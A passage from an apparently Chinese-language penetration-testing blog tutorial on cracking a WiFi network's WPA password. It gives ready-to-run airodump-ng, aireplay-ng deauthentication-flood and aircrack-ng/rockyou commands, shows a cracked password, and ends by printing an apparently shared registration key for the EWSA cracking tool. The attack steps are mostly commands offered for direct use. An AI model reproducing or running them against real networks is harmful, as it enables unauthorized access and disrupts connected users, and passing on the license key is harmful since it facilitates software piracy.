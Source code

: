 对应的ch（信道）：1

MAC地址： 76:87:4E:74:34:06

### 步骤四：挑选一个WiFi抓取握手包并保存为CAP文件

```
airodump-ng -c 1 --bssid 76:87:4E:74:34:06 -w /home/wifi wlan0mon

-c 是指定信道
--bssid 指定该WiFi的mac地址
-w 指定保存的路径（该路径必须存在否则会报错）默认保存在你终端的当前路径。
```

 另外开一个终端，注入数据包（Deauth洪水攻击）发送认证数据包，获取握手等数据，

```
aireplay-ng -0 0 -a 76:87:4E:74:34:06  -c 5C:F7:C3:92:0A:DD wlan0mon -D

-0 模式，后面跟你要攻击的次数我给的是20，如果过大对方则会一直连接不上。
-a 无线APmac地址
-c 客户端mac地址
```

> 注意：这个时候连接的热点的设备断开连接，会自动请求连接（建议大家手动将断开的设备进行二次连接），不要问我是怎么知道的，

进行重新连接后，就可以活到相应的握手数据包，必须要抓取到握手数据包！！！！

### 步骤五：使用kali上自带的字典进行密码破解

kali上自带字典足够用了，当然你的密码如果太太太复杂建议自己创建一个密码字典，如何创建请看之前文章渗透测试--5.1.Crunch创建密码字典_西柚小萌新的博客-CSDN博客

字典目录：/usr/share/wordlists/rockyou.txt

对数据包进行密码破解，

```
aircrack-ng -w /usr/share/wordlists/rockyou.txt /home/wifi/wifi-01.cap
```

破解出密码为：88888888

### 步骤六：启动网络

我们刚才进行试验的时候关掉了，kali系统的网络服务。现在把服务启动起来

（重启电脑也是可以的）

```
service NetworkManager start
```

# 破解工具：EWSA

EWSA注册码：EWSA-173-HC1UW-L3EGT-FFJ3O-SOQB3
## 1.介绍
